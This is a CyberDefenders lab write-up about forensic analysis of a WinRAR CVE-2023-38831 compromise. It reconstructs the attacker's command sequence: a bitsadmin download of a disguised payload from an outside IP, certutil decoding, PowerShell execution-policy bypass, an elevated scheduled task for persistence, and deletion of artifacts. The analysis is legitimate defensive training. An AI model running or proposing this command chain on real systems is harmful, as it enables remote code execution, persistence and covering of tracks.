 # Cyber Defender's "SpottedInTheWild" write-up.

## Scenario
"You are part of the incident response team at FinTrust Bank. This morning, the network monitoring system flagged unusual outbound traffic patterns from several workstations. Preliminary analysis by the IT department has identified a potential compromise linked to an exploited vulnerability in WinRAR software."

# CVE-2023-38831 Detail:
RARLAB WinRAR before 6.23 allows attackers to execute arbitrary code when a user attempts to view a benign file within a ZIP archive. The issue occurs because a ZIP archive may include a benign file (such as an ordinary .JPG file) and also a folder that has the same name as the benign file, and the contents of the folder (which may include executable content) are processed during an attempt to access only the benign file. This was exploited in the wild in April through October 2023.
https://nvd.nist.gov/vuln/detail/cve-2023-38831


## Event order:
1. Download amanwhogetsnorest.jpg via bitsadmin:
<pre>
bitsadmin /transfer Nothing /download /priority normal http://172.18.35.10:8000/amanwhogetsnorest.jpg C:\Windows\Temp\amanwhogetsnorest.jpg 
</pre>
2. Used certutil to decode amanwhogetsnorest.jpg, saving the output as normal.zip. (normal.zip contained z.ps1, Eventlog.ps1, run.bat and run.ps1)
<pre>
certutil -decode amanwhogetsnorest.jpg normal.zip 1>nul
</pre>
3. Opened the command prompt to run z.ps1 from PowerShell
<pre>
cmd /c "powershell -NOP -EP Bypass C:\Windows\Temp\z.ps1"
</pre>
4. Created a scheduled  \whoisthebaba
<pre>
schtasks /create /sc minute /mo 3 /tn "whoisthebaba" /tr C:\Windows\Temp\run.bat /RL HIGHEST
</pre>
5. Deleted z.ps1
<pre>
del z.ps1
</pre>
6. delete amanwhogetsnorest.jpg
<pre>
del amanwhogetsnorest.jpg
</pre>
7. Deleted normal.zip
<pre>
del normal.zip 
</pre>
8. Open CMD to run Eventlog.ps1 from PowerShell
<pre>
cmd /c "powershell -NOP -EP Bypass C:\Windows\Temp\Eventlog.ps1"
</pre>
9. Deleted Eventlog.ps1
<pre>
del Eventlog.ps1
</pre>
